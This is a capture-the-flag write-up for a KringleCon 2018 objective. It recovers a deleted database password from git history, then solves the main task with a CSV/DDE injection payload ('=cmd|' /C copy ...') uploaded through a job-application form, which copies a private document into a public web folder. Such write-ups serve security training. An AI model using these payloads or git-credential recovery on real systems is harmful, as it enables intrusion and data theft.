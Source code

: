 ## Objective 7

> Santa uses an Elf Resources website to look for talented information security professionals. [Gain access to the website](https://careers.kringlecastle.com/) and fetch the document C:\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with "K"? 
> For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge.

### Challenge


> Coalbox again, and I've got one more ask.
> Sparkle Q. Redberry has fumbled a task.
> Git pull and merging, she did all the day;
> With all this gitting, some creds got away.
> Urging - I scolded, "Don't put creds in git!"
> She said, "Don't worry - you're having a fit.
> If I did drop them then surely I could,
> Upload some new code done up as one should."

> Find Sparkle's password, then run the runtoanswer tool.

For this challenge you will need:

- Search GIT for passwords: https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/
- GIT cheat sheet: https://gist.github.com/hofmannsven/6814451


The easiest thing to do is to check the git log for deletions:

```
elf@69b8d8354d79:~$ ls
kcconfmgmt  runtoanswer
elf@69b8d8354d79:~$ cd kcconfmgmt/
elf@69b8d8354d79:~/kcconfmgmt$ git log --diff-filter=D --summary
commit 60a2ffea7520ee980a5fc60177ff4d0633f2516b
Author: Sparkle Redberry <sredberry@kringlecon.com>
Date:   Thu Nov 8 21:11:03 2018 -0500

    Per @tcoalbox admonishment, removed username/password from config.js, default settings in conf
ig.js.def need to be updated before use

 delete mode 100644 server/config/config.js
```

Nice, check the log again for an earlier commit:
```
commit 60a2ffea7520ee980a5fc60177ff4d0633f2516b
Author: Sparkle Redberry <sredberry@kringlecon.com>
Date:   Thu Nov 8 21:11:03 2018 -0500

    Per @tcoalbox admonishment, removed username/password from config.js, default settings in conf
ig.js.def need to be updated before use

commit b2376f4a93ca1889ba7d947c2d14be9a5d138802
Author: Sparkle Redberry <sredberry@kringlecon.com>
Date:   Thu Nov 8 13:25:32 2018 -0500
```

then go back to `b2376f4a93ca1889ba7d947c2d14be9a5d138802` and see the deleted file:
```
elf@69b8d8354d79:~/kcconfmgmt$ git checkout b2376f4a93ca1889ba7d947c2d14be9a5d138802
Note: checking out 'b2376f4a93ca1889ba7d947c2d14be9a5d138802'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by performing another checkout.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -b with the checkout command again. Example:

  git checkout -b <new-branch-name>

HEAD is now at b2376f4... Add passport module

elf@69b8d8354d79:~/kcconfmgmt$ cat server/config/config.js
// Database URL
module.exports = {
    'url' : 'mongodb://sredberry:twinkletwinkletwinkle@127.0.0.1:27017/node-api'
};
```

Got it!
```
elf@69b8d8354d79:~/kcconfmgmt$ runtoanswer 
Loading, please wait......



Enter Sparkle Redberry's password: twinkletwinkletwinkle


This ain't "I told you so" time, but it's true:
I shake my head at the goofs we go through.
Everyone knows that the gits aren't the place;
Store your credentials in some safer space.

Congratulations!
```



**Hint**: CSV Injection: https://www.owasp.org/index.php/CSV_Injection

**Hint**: CSV DDE Injection talk: https://www.youtube.com/watch?v=Z3qpcKVv2Bg


### Objective completion

The target site consists in a career application form, try to register yourself:


> Thank you for taking the time to upload your information to our elf resources shared workshop station! Our elf resources will review your CSV work history within the next few minutes to see if you qualify to join our elite team of InfoSec Elves. If you are accepted, you will be added to our secret list of potential new elf hires located in C:\candidate_evaluation.docx

The network call is straightforward:
```
https://careers.kringlecastle.com/api/upload/application
firstname: some
lastname: one
phone: 234534534534
email: some@one.it
csv: (binary)
```

Ok, so we don't have direct access to the target file, but we know its full path (`C:\candidate_evaluation.docx`) and we know that an elf will open our CSV.

We could implement a reverse shell CSV injection or a remote file upload, but maybe there's something simpler... Let's try to mess up the URL as we did in Obj. 2. https://careers.kringlecastle.com/api/something will return a nice 404 page:
```
404 Error!

Publicly accessible file served from: 
C:\careerportal\resources\public\ not found......



Try: 
https://careers.kringlecastle.com/public/'file name you are looking for'
```

So there's a direct mapping from `https://careers.kringlecastle.com/public/` and the directory `C:\careerportal\resources\public\`.

We need to craft a CSV injection that copies `candidate_evaluation.docx` in the right place, send it and wait a few minutes for an Elf to open it (and ignores the warning, we hope!).


The CSV is quite simple, it contains the injection only (see [`inject.csv`](https://github.com/Simone-Zabberoni/kringlecon-2018-report/blob/master/7/inject.csv)):
```
=cmd|' /C copy C:\candidate_evaluation.docx C:\careerportal\resources\public'!A1
```

*Note*: To be sure you can replicate the directory structure on your testing machine, create a fake docx file and import the csv into excel: the file should be copied instantly.

Time to send our crafted CSV with the career application form, wait a few minutes then try https://careers.kringlecastle.com/public/candidate_evaluation.docx: download it!

The bad guy's name is quite "known", read through [`candidate_evaluation.docx`](https://github.com/Simone-Zabberoni/kringlecon-2018-report/blob/master/7/candidate_evaluation.docx)  to get the name of the terrorist organization.





**Objective answer**: `Fancy Beaver`

